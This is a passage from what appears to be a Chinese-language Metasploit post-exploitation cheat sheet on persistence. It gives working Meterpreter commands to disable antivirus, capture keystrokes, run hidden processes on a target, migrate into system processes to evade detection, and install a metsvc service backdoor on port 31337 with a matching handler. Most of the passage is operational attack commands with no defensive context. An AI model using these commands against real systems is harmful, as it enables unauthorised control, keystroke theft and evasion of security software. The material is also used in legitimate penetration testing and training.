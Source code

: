 
## 权限维持

**关闭防病毒软件**
```bash
run killav
```

**键盘记录**
```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```

**执行程序**
```bash
execute -f [path] [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

**进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate pid     # 绑定/迁移进程
```

**后门**

MSF 自带两种植入后门的方式

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc 服务后门**

    原理：命令运行成功后会在 `C:\Users\用户名\AppData\Local\Temp` 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    ```bash
    # 自动化安装
    run metsvc -A

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost [lhost]
    set lport 31337
    exploit -j
    ```
